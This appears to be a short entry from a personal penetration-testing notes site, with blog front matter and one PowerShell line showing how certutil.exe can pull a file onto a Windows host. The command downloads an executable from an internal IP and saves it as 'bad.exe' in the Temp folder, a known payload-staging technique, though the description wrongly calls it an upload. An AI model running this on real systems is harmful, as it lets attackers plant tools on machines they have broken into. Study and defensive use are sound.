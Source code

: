```yaml
---
description: >-
  Certutil.exe utility to upload files.
title: Certutil.exe                 # Add title here
date: 2023-02-03 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Windows - Certutil.exe]                     # Change Templates to Writeup
tags: [file transfer, windows upload, certutil]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

```powershell
certutil.exe -urlcache -f http://10.0.0.5/40564.exe C:\Windows\Temp\bad.exe
```
Example:
[[Forest#^8fde0e]]